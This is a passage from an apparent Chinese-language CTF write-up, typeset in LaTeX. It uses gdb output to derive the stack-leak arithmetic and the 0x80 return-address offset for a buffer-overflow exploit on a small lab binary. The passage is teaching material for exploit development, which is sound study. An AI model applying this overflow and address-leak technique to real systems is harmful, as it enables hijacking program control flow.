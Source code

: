 \documentclass[10pt,a4paper]{article}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\paragraph{3.3 用 gdb
驗證堆疊算術（很重要，不要用猜的）}\label{ux7528-gdb-ux9a57ux8b49ux5806ux758aux7b97ux8853ux5f88ux91cdux8981ux4e0dux8981ux7528ux731cux7684}

我在 gdb 裡下中斷點實際看到的值：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
（進入 0x401016 時 rsp = 0x7fffffffdf08）
0x401017  push rsp 之後 :  rsp=0x7fffffffdf00   [rsp]=0x7fffffffdf08
0x401031  pop rax 之後  :  rsp=0x7fffffffdf08   rax=0x7fffffffdf08
0x40104f  進入時        :  rsp=0x7fffffffdf08   [rsp]=0x000000000040100a
0x401054  之後 rsi      :  0x7fffffffde88
0x40106b  ret 前（餵滿 payload）: rsp=0x7fffffffdf08   [rsp]=0x000000000040104f   ← 已經被我們蓋掉了
0x40106b  ret 前（餵 24 bytes） : rsp=0x7fffffffdf08   [rsp]=0x000000000040100a   ← 只有不溢位時才是原值
\end{Verbatim}

\begin{quote}
※注意 \texttt{0x40106b} 的 \texttt{{[}rsp{]}}
就是\textbf{返回位址那一格}（\texttt{buf+0x80}）。用第 6 節的 payload
跑， 它會顯示你自己寫進去的
\texttt{0x40104f}（這正是「溢位成功」的證據）；想看到原始的
\texttt{0x40100a}， 就讓 vuln 那次 \texttt{read}
什麼都沒收到（例如輸入檔只給 24 bytes，\texttt{read} 回傳
0，就不會覆蓋）。
\end{quote}

由此得到兩個關鍵數字：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
leak  = 0x7fffffffdf08              ← write 洩漏的值
buf   = 0x7fffffffde88 = leak - 0x80 ← vuln 的讀取緩衝區
返回位址在 buf + 0x80               ← 溢位 offset 就是 0x80
\end{Verbatim}

\textbf{這就是 exploit 裡 \texttt{buf\ \allowbreak{}=\ \allowbreak{}leak\ \allowbreak{}-\allowbreak{}\ \allowbreak{}0x80} 和
\texttt{b"B"*0x80} 的來源。}

\subparagraph{怎麼自己重現這張表？（可直接複製）}\label{ux600eux9ebcux81eaux5df1ux91cdux73feux9019ux5f35ux8868ux53efux76f4ux63a5ux8907ux88fd}

\begin{quote}
ASLR 每次的位址都不一樣，所以你自己跑出來的數字跟上面\textbf{不會一樣}。
重點是\textbf{差值}：\texttt{第二次\ \allowbreak{}rsi\ \allowbreak{}-\allowbreak{}\ \allowbreak{}第一次\ \allowbreak{}rsi\ \allowbreak{}=\ \allowbreak{}0x08}、\texttt{rax=15\ \allowbreak{}那次的\ \allowbreak{}rsp\ \allowbreak{}-\allowbreak{}\ \allowbreak{}第一次\ \allowbreak{}rsi\ \allowbreak{}=\ \allowbreak{}0x90}。
（上面表格的 \texttt{0x7fffffffdf08} / \texttt{0x7fffffffde88} 是同一輪
gdb 的數字；你自己跑會拿到別的位址， 但\textbf{相減的差值一定一樣}。）
\end{quote}
\end{document}
